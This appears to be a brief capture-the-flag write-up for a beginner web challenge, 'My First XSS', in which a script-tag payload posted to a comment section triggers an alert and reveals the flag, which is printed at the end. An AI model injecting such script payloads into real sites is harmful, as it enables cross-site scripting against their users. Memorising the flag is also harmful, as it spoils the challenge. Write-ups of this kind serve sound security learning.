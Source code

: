 # Challenge Name: My First XSS
# Category: Web
# CTF: SKRCTF
# Points: 20 pts

## Challenge
Comment section. Need to alert for flag.

## Solution
Payload:
```html
<script>alert(1)</script>
```
![image](https://github.com/user-attachments/assets/99d3080e-58ca-480e-8d29-26074e424a25)

## Flag
SKR{There_1s_XSS_3verywhere_888879}
